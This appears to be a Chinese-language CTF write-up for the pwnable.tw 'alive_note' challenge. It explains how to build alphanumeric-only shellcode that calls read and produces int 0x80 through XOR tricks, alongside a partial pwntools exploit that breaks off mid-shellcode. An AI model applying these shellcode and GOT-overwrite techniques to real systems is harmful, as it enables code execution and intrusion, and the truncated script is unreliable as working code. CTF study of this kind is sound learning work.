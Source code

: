 ```python
#0x7fffffffdd80
```
远端非常慢....挑早上打。。还是能成功的

# alive_note
在Death_note上升级的一道题
主要是限制了输入必须是 字母或者数字
而且一次只能输入8bytes

我们要解决几个问题
* /bin/sh无法输入
所以我们需要调用read..那么目标变成了直接用read读shellcode进去跳shellcode
所以我们需要
```s
eax=3
ebx=0
ecx=已知的地址
edx=xx
```
设置寄存器如果数字较小的话我们可以直接inc上去比较大的话我们push 进去之后pop 出来

改写free_got所以eax是将要被free的地址
我们可以set为ecx的值

* int 0x80也就是\xcd\x80需要自己通过运算得出
还好xor [reg+0x??],reg还是可以用的
我们可以先dec 一个为0的寄存器 得出0xffffffff
这样就可以比较方便的xor出\xcd\x80
## exp
```python
from pwn import *
def cmd(c):
	p.sendlineafter("choice :",str(c))
def add(idx,name="A\n"):
	cmd(1)
	p.sendlineafter("Index :",str(idx))
	p.sendafter("Name :",name)
def show(idx):
	cmd(2)
	p.sendlineafter("Index :",str(idx))
def free(idx):
	cmd(3)
	p.sendlineafter("Index :",str(idx))
def pwn(addr):
	idx=0xffffffff
	while(addr!=(idx*4+0x804a080) % 0x100000000):
		idx-=1
	return idx-0x100000000
#context.log_level='debug'
p=remote("chall.pwnable.tw",10300)
#p=process("./alive_note")
#gdb.attach(p,'b *0x80488ea')
p1='''
push eax
pop ecx
dec edx
push edx
pop eax
inc edx
'''
p2='''
xor [ecx+0x41],ax
inc edx
```

[1]: https://code.woboq.org/qt5/include/linux/prctl.h.html
[2]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[3]: https://blog.csdn.net/qq_19683651/article/details/61418292
[4]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[5]: https://n132.github.io/2019/02/11/Kidding/
[6]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[7]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[8]: https://n132.github.io/2019/02/23/mno2/
[9]: https://code.woboq.org/userspace/glibc/time/tzset.c.html#__tz_convert